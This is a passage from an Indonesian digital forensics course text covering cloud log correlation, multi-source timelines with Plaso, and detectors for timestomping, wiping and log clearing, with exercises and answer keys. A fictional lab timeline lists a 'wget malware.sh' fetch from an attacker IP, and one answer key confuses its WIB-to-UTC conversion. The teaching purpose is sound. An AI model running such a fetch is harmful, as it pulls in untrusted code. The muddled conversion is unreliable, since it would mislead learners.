

## 6. Contoh Terapan

**Cross-provider correlation scenario:**

```markdown
## Scenario: Data Exfiltration via Cloud

Timeline yang direkonstruksi dari multiple log sources:

| Waktu | Source | Event | Signifikansi |
|---|---|---|---|
| 02:15 | Google Workspace Login | user@corp.com login dari 203.0.113.88 (IP tidak biasa — negara lain) | Potential credential compromise |
| 02:17 | Google Drive Audit | 847 file di-download dalam 3 menit | Anomali — volume tidak normal |
| 02:20 | AWS CloudTrail | AssumeRole dengan credential user@corp.com → admin role | Escalation privileges di AWS |
| 02:22 | AWS CloudTrail | CreateAccessKey untuk user baru | Persistence mechanism |
| 02:25 | VPC Flow Logs | Outbound traffic 45 GB ke 203.0.113.88 port 443 | Data exfiltration |
| 02:30 | AWS CloudTrail | DeleteTrail → CloudTrail logging disabled | Attempt to cover tracks |

Cross-provider evidence kuat: IP yang sama (203.0.113.88) muncul di GWS login dan tujuan VPC flow.
Correlation confidence: HIGH (same IP across multiple independent sources).
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menganalisis cloud log exports dan menghasilkan timeline insiden.

**Aktivitas (menggunakan dataset yang disanitasi dari dosen):**
1. Terima: (a) CloudTrail log export (JSON, disanitasi); (b) Google Workspace audit export (CSV, disanitasi).
2. Jalankan skrip analisis dan identifikasi event mencurigakan.
3. Buat timeline dari semua event yang relevan.
4. Identifikasi correlation antara kedua sumber log.
5. Tulis acquisition limitation note untuk dataset ini.
6. Buat evidence integrity checklist.

**Output:** Cloud artefact analysis report + limitation note — bagian dari Eval-3.

## 8. Latihan Pemahaman

1. **(C4)** Jelaskan mengapa "tidak ada log" tidak selalu berarti "tidak ada kejahatan." Dalam konteks cloud forensics, apa saja alasan yang valid mengapa log mungkin tidak tersedia?

2. **(C4)** Seorang investigator menemukan bahwa S3 access log menunjukkan 10.000 GetObject requests dari IP 203.0.113.88 dalam 2 jam. Mengapa ini tidak langsung membuktikan data exfiltration, dan informasi tambahan apa yang diperlukan untuk mengkonfirmasi?

## 9. Latihan Terapan / Studi Kasus

Perusahaan melaporkan bahwa source code proprietary mungkin telah bocor. Kode tersebut disimpan di GitHub Enterprise (on-premises) dan di-clone oleh developer ke laptop mereka yang juga sync ke Google Drive. Ada 5 developer yang memiliki akses. Anda diberikan: GitHub audit log (exported), Google Workspace audit log (exported), dan backup laptop salah satu developer (dengan izin). (a) Dari setiap sumber, apa artefak yang paling relevan untuk mengidentifikasi siapa yang mungkin mengexfiltrate kode? (b) Bagaimana Anda mengkorelasikan evidence dari ketiga sumber? (c) Apa limitation dari evidence set ini yang harus didokumentasikan? (d) Apa yang tidak bisa dibuktikan dari evidence ini?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** "Tidak ada log" dapat disebabkan banyak hal selain tidak adanya kejahatan: (a) Log tidak dikonfigurasi sejak awal (forensic readiness gap); (b) Log di-delete oleh attacker sebelum investigasi — justru ini bisa menjadi indikator (penghapusan log sendiri adalah suspicious event); (c) Log sudah di-rotate/overwrite karena retention period yang singkat; (d) Log ada di pihak provider namun belum diakses karena belum ada legal process; (e) Investigator mencari di tempat yang salah. Dalam laporan forensik: "tidak ditemukan evidence" harus disertai penjelasan tentang apa yang di-search, bagaimana, dan mengapa tidak ada tidak selalu berarti tidak terjadi.

**Soal 2:** GetObject dari IP tertentu tidak langsung membuktikan exfiltration karena: (a) IP mungkin adalah NAT gateway perusahaan itu sendiri (legitimate access); (b) Mungkin adalah crawler/bot yang sah (jika bucket public); (c) Mungkin adalah backup service yang sudah dikonfigurasi; (d) Volume tinggi bisa juga dari legitimate bulk operation. Informasi tambahan yang diperlukan: siapa pemilik IP 203.0.113.88 (whois, reverse DNS, geolocation); apakah ada user atau service yang dikonfigurasi menggunakan IP ini; apakah ini IP yang dikenal dalam network topology organisasi; ukuran total data yang di-download; apakah ada event CloudTrail lain (auth, config changes) dari IP yang sama.

**Studi Kasus:** (a) Artefak per source: GitHub audit log: clone/fork events (siapa yang clone, kapan, dari IP mana), access dari IP tidak biasa, download archive event. Google Workspace: Drive upload events (file upload ke Drive dari laptop — kapan, oleh siapa, ukuran file), sharing events ke external email. Backup laptop: git log, file access timestamps, browser history (GitHub Enterprise, pastebin, cloud upload services), email drafts, recently accessed files. (b) Korelasi: timeline: cari proximity antara "GitHub clone" dan "Drive upload besar" oleh orang yang sama; IP correlation: git action dari IP X → Drive upload dari IP X (atau laptop yang sama); file hash: jika kode yang di-clone bisa di-hash dan dibandingkan dengan file yang di-upload ke Drive. (c) Limitations: Google Drive log mungkin tidak menyimpan file content — hanya metadata; GitHub Enterprise (on-prem) log retention tergantung konfigurasi; tidak bisa membuktikan data sampai ke pihak luar hanya dari bukti ini; laptop backup satu orang — 4 lainnya belum diinvestigasi. (d) Tidak bisa dibuktikan dari evidence ini: apakah kode sudah dibagikan ke pihak ketiga (tidak ada bukti transmission ke eksternal); apakah kode sudah digunakan (penggunaan tidak meninggalkan artefak forensik yang jelas).

## 11. Ringkasan Bab

Cloud forensics menghadirkan tantangan unik: tidak ada akses fisik, shared responsibility model, ephemeral resources, dan ketergantungan pada provider cooperation. Sumber log utama: CloudTrail (API calls), VPC Flow Logs (network), Workspace Audit (user activity). Keterbatasan harus selalu didokumentasikan: log yang tidak dikonfigurasi, retention yang terbatas, dan bukti tersebar lintas provider. Cross-provider correlation meningkatkan confidence temuan.

## 12. Refleksi Profesional

1. Cloud provider menyimpan data yang sangat sensitif tentang user mereka. Dalam kasus yang melibatkan data dari cloud provider asing (misal: AWS region di Singapura, GitHub di AS), investigator Indonesia harus mengikuti proses apa untuk mendapatkan data dari provider tersebut secara legal? Apa kendala praktis dan solusi yang mungkin?

---

# BAB 9 — INTEGRASI MOBILE DAN CLOUD FORENSICS: TIMELINE DAN VALIDASI

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengintegrasikan artefak mobile dan cloud dalam satu timeline investigasi
- Menggunakan Plaso/log2timeline dan Timesketch untuk analisis timeline
- Mengevaluasi confidence level dari setiap artefak dalam timeline
- Menyusun evidence integrity checklist yang komprehensif

*Berkaitan dengan Sub-CPMK-3, Eval-3 (20%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Integrated Mobile &\nCloud Timeline] --> B[Timeline Sources]
    B --> B1["Mobile artefacts:\nSMS, call log, browser,\napp databases"]
    B --> B2["Cloud logs:\nCloudTrail, GWS audit,\nOneDrive activity"]
    B --> B3["Disk artefacts:\n$MFT, prefetch, LNK,\nRegistry timestamps"]
    B --> B4["Network logs:\nfirewall, proxy, DNS"]
    A --> C[Plaso/log2timeline]
    C --> C1["log2timeline: parse\nberbagai format menjadi\nsatu timeline"]
    C --> C2["psort: filter, sort,\ndan export timeline"]
    C --> C3["Timesketch: visualisasi\ntimeline interaktif"]
    A --> D[Timeline Validation]
    D --> D1["Clock skew:\nperbedaan jam antar device"]
    D --> D2["Timezone handling:\npastikan semua dalam UTC"]
    D --> D3["Correlation event:\n2+ independent sources\nmenyatakan hal yang sama?"]
    A --> E[Confidence Rating]
    E --> E1["High: 2+ independent sources\ncocok waktu dan konten"]
    E --> E2["Medium: 1 source dengan\ncorroborating circumstantial"]
    E --> E3["Low: hanya dari 1 source\ntanpa corroboration"]
    E --> E4["Uncertain: contradictory\nevidence atau anti-forensics"]
```

## 3. Pengantar Kontekstual

Investigasi modern jarang melibatkan satu artefak dari satu device. Tersangka menggunakan smartphone yang tersinkronisasi ke cloud, bekerja di laptop yang terhubung ke jaringan corporate, dan meninggalkan jejak di berbagai sistem. Kemampuan untuk mengintegrasikan semua sumber bukti ini ke dalam satu timeline yang koheren — dengan confidence rating yang jujur untuk setiap event — adalah kemampuan inti investigator forensik senior.

## 4. Landasan Teori

### 4.1 Plaso/log2timeline: Multi-Source Timeline

**Plaso** (Plaso Langar Að Safna Öllu) adalah framework untuk membuat super-timeline dari berbagai sumber artefak forensik.

```bash
# Dalam lab berotorisasi menggunakan dataset yang disediakan dosen:

# Buat timeline dari multiple sources:
log2timeline.py \
    --parsers "sqlite,olecf,msie,lnk,prefetch,evtx,mft,syslog" \
    --storage-file timeline.plaso \
    /path/to/case_artifacts/
# Ini akan parse: SQLite databases, Office files, IE history, LNK files,
# Prefetch, Windows Event Logs, MFT, Linux syslog

# Filter dan export ke CSV:
psort.py \
    --output-format dynamic \
    -w timeline_output.csv \
    timeline.plaso \
    "date > '2025-10-28' AND date < '2025-11-01'"
# Filter ke periode insiden

# Filter ke event spesifik:
psort.py \
    --output-format dynamic \
    -w filtered_output.csv \
    timeline.plaso \
    "source_short = 'LNK' OR source_short = 'PREFETCH'"
```

### 4.2 Clock Skew dan Timezone Management

**Clock skew** adalah perbedaan jam antara perangkat yang berbeda. Dalam timeline multi-source:
- Mobile device mungkin sinkronisasi ke NTP server yang berbeda
- Cloud logs biasanya dalam UTC
- Windows Event Log bisa dalam local time atau UTC (tergantung konfigurasi)

```python
"""
Normalisasi timestamp ke UTC untuk multi-source timeline.
"""
from datetime import datetime, timezone, timedelta
import pytz

def normalize_to_utc(timestamp_str, source_timezone="Asia/Jakarta"):
    """Konversi timestamp dari timezone sumber ke UTC"""
    local_tz = pytz.timezone(source_timezone)
    
    # Parse timestamp
    dt = datetime.fromisoformat(timestamp_str)
    
    # Jika belum ada timezone info:
    if dt.tzinfo is None:
        dt = local_tz.localize(dt)
    
    # Convert ke UTC:
    utc_dt = dt.astimezone(timezone.utc)
    return utc_dt.isoformat()

# Contoh:
android_sms_time = "2025-10-29 10:42:00"  # Waktu lokal (WIB = UTC+7)
gws_log_time = "2025-10-29T03:42:00Z"     # UTC dari Google
cloudtrail_time = "2025-10-29T03:42:17Z"  # UTC dari AWS

android_utc = normalize_to_utc(android_sms_time, "Asia/Jakarta")
# android_utc = "2025-10-29T03:42:00+00:00" → sama dengan GWS log!
print(f"Android SMS (UTC): {android_utc}")
print(f"GWS Login (UTC):   {gws_log_time}")
# Keduanya terjadi pada waktu yang hampir bersamaan!
```

### 4.3 Confidence Rating Framework

Setiap event dalam timeline harus diberi confidence rating berdasarkan kualitas dan corroboration evidence:

```markdown
## Timeline Confidence Framework

| Level | Kriteria | Contoh |
|---|---|---|
| HIGH | 2+ independent sources dengan timestamp cocok (±5 menit) dan content yang konsisten | Login dari IP X tercatat di GWS AND CloudTrail pada waktu yang sama |
| MEDIUM | 1 primary source + circumstantial corroboration | Browser history menunjukkan visit ke site X; tidak ada log lain namun file download dari site X ditemukan di disk |
| LOW | Hanya dari 1 source, tidak ada corroboration | Entry dalam SQLite database tanpa cross-reference |
| UNCERTAIN | Evidence kontradiktif atau kemungkinan anti-forensics tinggi | Timestamp di-modify (timestomping), atau multiple sources menunjukkan hal berbeda |
```

### 4.4 Evidence Integrity Checklist

```markdown
## EVIDENCE INTEGRITY CHECKLIST — Mobile & Cloud Forensics

### Akuisisi
□ Otorisasi tertulis tersedia sebelum akuisisi
□ Perangkat mobile dimasukkan ke Faraday bag sebelum analisis
□ Hash dihitung sebelum DAN sesudah setiap akuisisi
□ Hash cocok (tidak ada perubahan saat akuisisi)
□ Write-blocker digunakan untuk media fisik
□ Tool yang digunakan dicatat dengan versi

### Chain of Custody
□ Evidence register terisi lengkap untuk setiap item
□ Setiap transfer custody tercatat dengan tanda tangan
□ Working copy digunakan untuk analisis (bukan original)
□ Access log menunjukkan siapa mengakses apa dan kapan

### Cloud Logs
□ Export procedure didokumentasikan (kapan, oleh siapa, dari admin console apa)
□ Retention period dicatat (apakah log mungkin tidak lengkap?)
□ Timezone semua log sudah dinormalisasi ke UTC
□ Log export sendiri di-hash dan dicatat dalam evidence register

### Timeline
□ Clock skew antar device sudah diidentifikasi dan dikompensasi
□ Setiap event dalam timeline diberi confidence level
□ Event dengan LOW atau UNCERTAIN confidence dinotasi jelas
□ Kontradiksi antar sources didokumentasikan (bukan dihapus)

### Limitasi
□ Limitation statement sudah dibuat untuk setiap sumber bukti
□ Data yang tidak tersedia (dan mengapa) didokumentasikan
□ Anti-forensics yang mungkin terjadi disebutkan
```

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Integrated timeline dari mobile + cloud (data fiktif untuk lab):**

```markdown
## Case Timeline — CF-2025-001 (High Confidence Events Only)

| UTC Timestamp | Source(s) | Event | Confidence |
|---|---|---|---|
| 2025-10-29 03:41:00 | GWS Login + CloudTrail | user@corp.com login dari 203.0.113.88 | HIGH (2 sources) |
| 2025-10-29 03:41:22 | Linux bash memory | wget malware.sh dari 203.0.113.88 | MEDIUM (memory only) |
| 2025-10-29 03:42:00 | Android SMS (UTC normalized) | SMS ke nomor +62-xxx-xxx: "sudah masuk" | LOW (1 source, no corroboration) |
| 2025-10-29 03:42:17 | CloudTrail + VPC Flow | AssumeRole admin + 45GB outbound ke 203.0.113.88 | HIGH (2 independent) |
| 2025-10-29 03:43:00 | GWS Drive + CloudTrail | 847 files download + S3 access dari same session | HIGH (2 sources) |
| 2025-10-29 03:45:00 | CloudTrail only | DeleteTrail (attempt to cover tracks) | MEDIUM (suspicious, single source) |

Note: SMS pada 03:42 adalah LOW confidence. Tidak ada bukti bahwa SMS sender = threat actor.
Dimasukkan dalam timeline untuk completeness namun dengan jelas diberi flag LOW confidence.
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Membuat integrated timeline dari multiple evidence sources.

**Aktivitas (menggunakan datasets dari Bab 7 dan 8):**
1. Normalisasi semua timestamp ke UTC.
2. Buat super-timeline menggunakan spreadsheet (atau Plaso jika tersedia di lab).
3. Berikan confidence rating untuk setiap event.
4. Identifikasi "keystone events" — event dengan HIGH confidence yang menjadi anchor timeline.
5. Isi evidence integrity checklist.
6. Tulis acquisition limitation note yang mencakup semua sumber.

**Output:** Integrated timeline + limitation note + evidence integrity checklist — deliverable utama Eval-3.

## 8. Latihan Pemahaman

1. **(C4)** Mengapa penting untuk mendokumentasikan event dengan confidence UNCERTAIN atau LOW dalam timeline, daripada menghapusnya agar laporan "lebih bersih"?

2. **(C5)** Evaluasi skenario berikut: Browser history menunjukkan visit ke situs berbagi file pukul 14:00; file system shows download dari situs tersebut pukul 14:05; cloud log menunjukkan upload file dengan nama sama ke cloud storage pukul 14:10. Apakah ini cukup untuk membuktikan exfiltration? Apa yang masih perlu diverifikasi?

## 9. Latihan Terapan / Studi Kasus

Anda memiliki: (1) Android phone backup menunjukkan SMS "Transfer sudah selesai" pada 03:42 WIB; (2) CloudTrail log menunjukkan CreateAccessKey untuk user backdoor pada 03:42 UTC; (3) VPC Flow Log menunjukkan 45GB upload ke IP eksternal pada 03:43 UTC; (4) Mobile browser history menunjukkan akses ke pastebin.com pada 03:40 WIB. Buat: (a) Integrated timeline dengan confidence rating; (b) Identifikasi "keystone events"; (c) Hipotesis terbaru berdasarkan timeline ini; (d) Artefak tambahan apa yang diperlukan untuk meningkatkan confidence?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Event LOW/UNCERTAIN tetap dimasukkan karena: (a) Transparansi: laporan forensik yang menghilangkan bukti yang tidak menguntungkan atau tidak jelas dapat dianggap menyesatkan atau manipulatif — ini adalah pelanggaran etika profesi; (b) Kelengkapan: hakim, pengacara, atau tim review perlu melihat semua bukti untuk membuat keputusan yang informed; (c) Falsifiability: bukti LOW confidence mungkin menjadi HIGH confidence dengan corroboration yang ditemukan kemudian; (d) Investigasi yang benar mengikuti bukti, bukan mengkonstruksi narasi — semua bukti, termasuk yang menguntungkan tersangka, harus didokumentasikan.

**Soal 2:** Tiga artefak ini membentuk circumstantial evidence yang kuat, namun belum cukup untuk membuktikan exfiltration secara pasti karena: (a) Browser history bisa di-manipulasi (timestomping); (b) "File dengan nama yang sama" — perlu hash verification bahwa file yang di-upload adalah file yang sama; (c) Belum tahu apa isi file yang di-upload ke cloud; (d) Cloud destination belum diidentifikasi: apakah ini cloud storage legitimate organisasi atau pihak eksternal? Yang masih perlu diverifikasi: hash file yang di-download vs yang di-upload (apakah identik?); siapa pemilik cloud storage destination; isi file (apakah mengandung data yang sensitive/confidential?); apakah ada event lain yang menghubungkan actor yang sama.

**Studi Kasus:** (a) Timeline UTC: 03:33 UTC (03:40 WIB) — mobile browser: pastebin.com (LOW, single source); 03:35 UTC (03:42 WIB) — SMS "Transfer sudah selesai" (LOW, no context); 03:42 UTC — CloudTrail: CreateAccessKey (MEDIUM — single source tapi suspicious event); 03:43 UTC — VPC Flow: 45GB upload ke eksternal (MEDIUM — single source). Note: SMS 03:42 WIB = 20:42 UTC hari sebelumnya (bukan 03:35 UTC)! Clock timezone error — perlu re-normalisasi. (b) Keystone events: CreateAccessKey (HIGH potential — suspicious event yang sangat spesifik) dan VPC Flow 45GB (HIGH potential — anomali volume besar). (c) Hipotesis terbaru: Credential dikompromis, attacker membuat access key backdoor dan langsung menggunakan untuk exfiltrate 45GB data. Pastebin visit mungkin adalah staging area untuk tool atau credential. (d) Artefak tambahan: CloudTrail event sebelum CreateAccessKey (bagaimana attacker mendapatkan access pertama kali?); identitas destination IP dari VPC Flow (siapa?); GWS atau auth log untuk user yang membuat access key; firewall log untuk validasi; content dari 45GB yang di-upload (jika bisa diidentifikasi dari S3 access log GetObject sebelum upload).

## 11. Ringkasan Bab

Integrated timeline dari multiple sources memberikan gambaran investigasi yang lebih komprehensif daripada analisis satu artefak. Normalisasi timezone ke UTC adalah langkah kritis. Plaso/log2timeline mengotomatiskan parsing berbagai format; Timesketch memvisualisasikannya. Setiap event harus diberi confidence rating berdasarkan corroboration. Evidence integrity checklist memastikan semua aspek akuisisi dan analisis terdokumentasi. Kontradiksi dan ketidakpastian tidak boleh dihilangkan dari laporan — mereka adalah bagian dari kejujuran forensik.

## 12. Refleksi Profesional

1. Timeline analysis dapat membuat hubungan yang tampaknya "jelas" namun sebenarnya hanya korelasi temporal, bukan kausalitas. Misalnya: email tentang transfer bank pada 10:00, dan transfer bank terjadi pada 10:05. Ini tidak membuktikan bahwa email tersebut adalah instruksi untuk transfer. Sebagai investigator forensik, bagaimana Anda mendidik stakeholder (klien, pengacara, manajemen) tentang perbedaan antara "correlation" dan "causation" dalam konteks bukti digital?


---

# BAB 10 — DETEKSI ANTI-FORENSICS: METODE, INDIKATOR, DAN ANALISIS

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengidentifikasi teknik anti-forensics yang umum digunakan
- Mendeteksi indikator timestomping, wiping, dan log tampering
- Menganalisis enkripsi dan obfuskasi sebagai upaya menghilangkan bukti
- Mendokumentasikan temuan anti-forensics dalam laporan investigasi

*Berkaitan dengan Sub-CPMK-4, Eval-4 (20%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Anti-Forensics Detection] --> B[Teknik Anti-Forensics]
    B --> B1["Timestomping:\nmanipulasi timestamps\nfile/registry"]
    B --> B2["Wiping:\noverwrite file, slack space,\nunallocated space"]
    B --> B3["Enkripsi/Obfuskasi:\nVaultware, VeraCrypt,\nsteganography"]
    B --> B4["Log Tampering:\nhapus/modifikasi event log,\nrotate log cepat"]
    B --> B5["Artefak Hiding:\nrootkit, alternate data\nstreams (ADS), DKOM"]
    A --> C[Deteksi Metode]
    C --> C1["MAC time anomaly:\nModified < Created —\nnot plausible normal"]
    C --> C2["$MFT vs $LOGFILE:\nMFT entry vs journal\ndiscrepancy"]
    C --> C3["Log gap analysis:\nkosong terlalu lama —\nprobable deletion"]
    C --> C4["Hash vs filename:\nhash file tidak cocok\ndengan ekstensi/isi"]
    A --> D[Forensic Implication]
    D --> D1["Anti-forensics ≠ innocence:\nupaya anti-forensics sendiri\ndapat menjadi bukti intent"]
    D --> D2["Partial recovery:\nbahkan wiped data mungkin\nrecoverable (file carving)"]
    D --> D3["Documentation:\ntandai semua indikasi\nanti-forensics dalam laporan"]
```

## 3. Pengantar Kontekstual

Anti-forensics adalah teknik yang digunakan oleh pelaku untuk menghambat atau menggagalkan investigasi forensik digital. Pelaku yang sophisticated tahu bahwa jejak digital dapat membuktikan tindakan mereka, sehingga mereka berusaha menghapus, menyamarkan, atau memanipulasi bukti. Namun, paradoks anti-forensics adalah: upaya tersebut seringkali justru meninggalkan artefak tersendiri yang dapat dideteksi oleh investigator terlatih.

Penting untuk dipahami: bab ini membahas **deteksi** anti-forensics dari perspektif defensif/investigatif, bukan panduan untuk melakukan anti-forensics.

## 4. Landasan Teori

### 4.1 Timestomping: Manipulasi Timestamp

**Timestomping** adalah teknik memodifikasi timestamp file untuk menyembunyikan waktu sebenarnya pembuatan atau modifikasi file. Windows menyimpan 4 timestamp per file (MACB: Modified, Accessed, Changed/MFT, Born/Created).

**Deteksi timestomping:**
```python
"""
Analisis MACB timestamps dari artefak yang di-parse (menggunakan Plaso output).
Indikator timestomping: Modified sebelum Created — tidak mungkin dalam skenario normal.
"""
from datetime import datetime

def detect_timestomping(file_entry):
    """
    Input: dict dengan timestamp MACB dari MFT atau Plaso output
    Return: dict dengan analisis dan indikasi timestomping
    """
    born = file_entry.get('born', None)       # $STANDARD_INFORMATION Created
    modified = file_entry.get('modified', None)  # $STANDARD_INFORMATION Modified
    accessed = file_entry.get('accessed', None)  
    changed = file_entry.get('changed', None)    # MFT record modified
    
    # Juga cek $FILE_NAME timestamps — attacker jarang memodifikasi FN, hanya SI:
    fn_born = file_entry.get('fn_born', None)    # $FILE_NAME timestamps
    fn_modified = file_entry.get('fn_modified', None)
    
    findings = []
    is_suspicious = False
    
    if born and modified:
        if modified < born:
            findings.append("CRITICAL: Modified timestamp BEFORE Created — tidak mungkin normal. Kemungkinan kuat timestomping.")
            is_suspicious = True
    
    # Discrepancy antara $STANDARD_INFORMATION dan $FILE_NAME:
    if fn_born and born and abs((fn_born - born).total_seconds()) > 1:
        findings.append(f"SUSPICIOUS: $SI Born ({born}) vs $FN Born ({fn_born}) berbeda > 1 detik. "
                       "Attacker mungkin modifikasi $SI saja, bukan $FN.")
        is_suspicious = True
    
    # Timestamp terlalu "round" — misal tepat jam, menit, detik semua 00:
    if born:
        if born.second == 0 and born.minute == 0:
            findings.append("ANOMALY: Timestamp tepat pada jam bulat — mungkin set manual.")
    
    return {
        'file': file_entry.get('filename', 'unknown'),
        'is_suspicious': is_suspicious,
        'findings': findings,
        'MACB': {'M': modified, 'A': accessed, 'C': changed, 'B': born}
    }

# Contoh penggunaan dengan data dari Plaso output (data fiktif untuk lab):
sample_entry = {
    'filename': '/Users/suspect/Documents/contract.pdf',
    'born': datetime(2025, 10, 1, 9, 0, 0),        # Created: 1 Oct
    'modified': datetime(2025, 9, 15, 14, 30, 0),   # Modified: 15 Sep — sebelum Created!
    'fn_born': datetime(2025, 10, 1, 9, 0, 2),      # FN timestamp (sedikit berbeda dari SI)
    'accessed': datetime(2025, 10, 29, 10, 0, 0)
}

result = detect_timestomping(sample_entry)
for finding in result['findings']:
    print(finding)
```

### 4.2 File Wiping: Overwrite dan Recovery

**Wiping** bertujuan menghapus data secara permanen melalui overwrite. Tool umum: Eraser (Windows), shred (Linux), SDelete (Sysinternals).

**Deteksi wiping:**
```python
"""
Deteksi file wiping melalui analisis MFT entries dan slack space patterns.
(Menggunakan dataset yang disediakan — tidak modifikasi evidence asli)
"""

def detect_wiping_indicators(forensic_artifacts):
    """
    Cari indikator penggunaan wiping tools dari berbagai artefak.
    """
    indicators = []
    
    # 1. Prefetch: apakah SDelete atau Eraser pernah dijalankan?
    WIPE_TOOLS = ['SDELETE.EXE', 'ERASER.EXE', 'CIPHER.EXE', 'SHRED', 
                  'DBAN', 'WIPE.EXE', 'CCleaner']
    
    prefetch_entries = forensic_artifacts.get('prefetch', [])
    for pf in prefetch_entries:
        if any(tool in pf['name'].upper() for tool in WIPE_TOOLS):
            indicators.append({
                'type': 'WIPING_TOOL_EXECUTED',
                'artefact': 'Prefetch',
                'detail': f"Tool: {pf['name']}, Last run: {pf['last_run']}, "
                         f"Run count: {pf['run_count']}",
                'confidence': 'HIGH'
            })
    
    # 2. Registry: MRU dan UserAssist untuk wiping tools
    userassist_entries = forensic_artifacts.get('userassist', [])
    for ua in userassist_entries:
        if any(tool in ua['program'].upper() for tool in WIPE_TOOLS):
            indicators.append({
                'type': 'WIPING_TOOL_IN_USERASSIST',
                'artefact': 'Registry UserAssist',
                'detail': f"Program: {ua['program']}, Count: {ua['count']}",
                'confidence': 'HIGH'
            })
    
    # 3. MFT: $DATA stream size = 0 namun $ALLOCATED_SIZE besar
    # (wiped file: data dihapus tapi allocation belum di-release sepenuhnya)
    mft_entries = forensic_artifacts.get('mft', [])
    for entry in mft_entries:
        if entry.get('data_size', -1) == 0 and entry.get('allocated_size', 0) > 0:
            indicators.append({
                'type': 'ZERO_SIZE_WITH_ALLOCATION',
                'artefact': 'MFT',
                'detail': f"File: {entry['filename']}, Allocated: {entry['allocated_size']} bytes",
                'confidence': 'MEDIUM'
            })
    
    # 4. Unallocated space: pattern fill (0x00, 0xFF, random pattern)
    # Ini memerlukan raw disk analysis — dicatat sebagai task untuk lab
    if forensic_artifacts.get('unallocated_pattern_fill_detected'):
        indicators.append({
            'type': 'PATTERN_FILL_IN_UNALLOCATED',
            'artefact': 'Unallocated Space',
            'detail': 'Unallocated sectors diisi dengan pattern uniform (0x00 atau 0xFF). Kemungkinan hasil wipe.',
            'confidence': 'MEDIUM'
        })
    
    return indicators
```

### 4.3 Log Tampering: Penghapusan Event Log Windows

```python
"""
Deteksi log tampering melalui analisis Windows Event Log.
"""
def detect_log_tampering(evtx_parser_output):
    """
    Analisis Windows Event Log untuk tanda-tanda tampering.
    Input: list event records dari EVTX parser (contoh: python-evtx)
    """
    tampering_indicators = []
    
    # Event ID 1102: Security log cleared — SANGAT SUSPICIOUS
    # Event ID 104: System log cleared
    LOG_CLEAR_EVENTS = {1102: 'Security log cleared', 104: 'System log cleared'}
    
    for event in evtx_parser_output:
        if event['event_id'] in LOG_CLEAR_EVENTS:
            tampering_indicators.append({
                'type': 'LOG_CLEARED',
                'severity': 'CRITICAL',
                'detail': f"EventID {event['event_id']}: {LOG_CLEAR_EVENTS[event['event_id']]} "
                         f"at {event['timestamp']} by {event.get('user', 'unknown')}",
                'implication': 'Event log dihapus secara aktif. Sangat mencurigakan; '
                              'event sebelumnya mungkin hilang.'
            })
    
    # Deteksi gap dalam sequence number event log:
    sequence_numbers = [e['record_id'] for e in evtx_parser_output if 'record_id' in e]
    sequence_numbers.sort()
    
    for i in range(1, len(sequence_numbers)):
        gap = sequence_numbers[i] - sequence_numbers[i-1]
        if gap > 100:  # Threshold: gap >100 record IDs berturut-turut
